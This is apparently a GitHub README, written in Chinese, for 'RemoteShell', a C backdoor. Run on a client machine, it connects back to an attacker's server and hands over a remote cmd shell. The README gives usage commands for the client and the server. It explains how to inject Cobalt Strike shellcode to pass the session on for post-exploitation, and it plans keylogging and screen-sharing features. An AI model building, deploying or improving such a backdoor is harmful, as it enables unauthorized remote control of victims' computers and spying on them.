





# RemoteShell
这个项目是我学习C的windowsAPI和网络编程时完成的一个小项目。 在客户端上运行后门之后，服务器上的攻击者可以获得客户端计算机的shell并执行命令,同时可以将该shell派生至Cobalt Strike进行后利用。

## Usage

**C2Client:**

```
C2Client.exe 192.168.1.2             #192.168.1.2为服务端ip
```

**C2Server:**

```
C2Server.exe
```

连接后如下图所示，左图为服务端(控制端)，右图为客户端。



服务端输入shell进入服务端



输入exit退出当前模式



输入SpawnCS将shell派生至Cobalt Strike

这里要输入派生的shellcode长度和shellcode字符串，回车后在CS服务端即可收到弹回的shell，目前支持x86和x64位CS的shellcode。MSF的shellcode格式和CS不同，需要重新解析，后续会开发出来。





**PS:**

BUG1：该项目的shell功能采用windows管道传输CreateProcess创建的cmd进程的返回值，有些命令会产生一些bug(如net share等)。后续会修改shell执行的实现代码。

BUG2:在执行SpawnCS后想通过exit之后继续执行cmd的shell时会发现无法执行shell命令了，这是因为客户端的在执行CS的shellcode时执行了WaitForSingleObject(hThread, INFINITE)。所以会一直阻塞，后面准备把执行shellcode的一大块函数已一个线程启动，修改这个bug。

后续会考虑在项目中加入键盘监听、dll自加载、屏幕共享等功能。最近一边写python web一边写c有点顶不住......等稍微闲下来后会及时更新。

